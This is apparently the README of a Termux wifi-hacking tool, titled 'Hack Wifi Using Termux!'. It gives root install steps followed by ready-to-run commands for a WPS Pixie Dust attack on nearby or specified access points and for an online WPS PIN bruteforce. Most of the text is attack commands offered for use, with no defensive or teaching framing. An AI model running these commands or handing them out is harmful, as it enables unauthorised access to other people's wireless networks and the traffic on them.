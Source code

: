 ## Pixie Dust Attack (PDA)
## Hack Wifi Using Termux! (Requires Root)

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

## Installation :

```bash
$ apt update && apt upgrade
$ pkg install -y root-repo
$ pkg install -y git tsu python3 wpa-supplicant pixiewps iw
$ git clone https://github.com/abukayuum/pixiewps
$ cd pixiewps
$ chmod +x pixiewps.py
$ sudo python3 pixiewps.py --help
```

## Help : `python3 pixiewps.py --help`
## Example : `sudo python3 pixiewps.py -i wlan0 -K`

## Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python pixiewps.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python pixiewps.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python pixiewps.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
